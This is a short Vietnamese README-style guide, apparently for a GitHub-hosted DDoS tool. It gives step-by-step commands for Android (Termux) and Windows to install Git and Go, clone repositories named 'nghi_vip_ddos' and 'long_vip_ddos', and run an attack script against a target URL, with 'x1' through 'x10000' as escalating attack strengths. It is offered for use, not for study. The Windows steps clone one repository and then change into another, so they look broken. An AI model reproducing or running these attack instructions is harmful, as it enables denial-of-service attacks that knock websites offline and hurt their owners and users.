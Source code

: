 ---------- Trên Điện Thoại Android ----------

Bước 1: Cài Đặt Ứng Dụng Termux
Link Tải: https://apkcombo.com/vi/termux/com.termux/

Bước 2: Mở Ứng Dụng Termux Chạy Các Lệnh Theo Thứ Tự
1. pkg install git
2. pkg install golang
3. git clone https://github.com/Nghi235/nghi_vip_ddos.git (lệnh cài đặt tool)
4. cd nghi_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
5. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "4"

---------- Trên Hệ Điều Hành Windows ----------

Bước 1: Cài Đặt "Git For Windows"
Link Tải: https://gitforwindows.org/

Bước 2: Cài Đặt "Golang For Windows"
Link Tải: https://go.dev/doc/install

Bước 3: Ấn Tổ Hợp Phím "Windows+R" Tìm Kiếm "cmd" Và Ấn Enter Chạy Các Lệnh Sau
1. git clone https://github.com/azvpn/long_vip_ddos.git (lệnh cài đặt tool)
2. cd nghi_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
3. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "2"
